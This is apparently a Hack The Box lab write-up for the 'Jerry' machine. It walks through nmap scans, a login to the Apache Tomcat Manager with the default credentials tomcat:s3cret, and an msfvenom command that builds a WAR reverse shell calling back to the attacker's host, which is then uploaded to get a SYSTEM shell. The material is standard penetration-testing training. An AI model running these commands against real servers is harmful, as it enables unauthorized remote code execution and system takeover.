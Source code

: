 # Jerry

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/10.10.10.95]
└─# nmap -p- --min-rate 5000 -Pn 10.10.10.95 -oN all_ports.nmap      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 09:42 EDT
Nmap scan report for 10.10.10.95
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.56 seconds
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/10.10.10.95]
└─# nmap -p 8080 -A --min-rate 5000 -Pn 10.10.10.95 -oN aggr.nmap  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 09:43 EDT
Nmap scan report for 10.10.10.95
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   173.35 ms 10.10.14.1
2   173.64 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.69 seconds

```

Seems like there's only one open port (8080).

### Tomcat Default Creds

Heading to http://10.10.10.95:8080,

<figure><img src="../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>

Using the creds: admin:admin,

* we got `403 Access Denied`

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

However, using default Tomcat Manager Console creds (tomcat:s3cret),

* I managed to login to the Application Manager Console

<figure><img src="../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Generate a WAR reverse shell,

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/10.10.10.95]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f war -o revshell.war
Payload size: 1103 bytes
Final size of war file: 1103 bytes
Saved as: revshell.war
```

Uploading the reverse shell,

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

Browse the Reverse shell at [http://10.10.10.95:8080/revshell/](http://10.10.10.95:8080/revshell/)

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/10.10.10.95]
└─# nc -lvp 443
listening on [any] 443 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
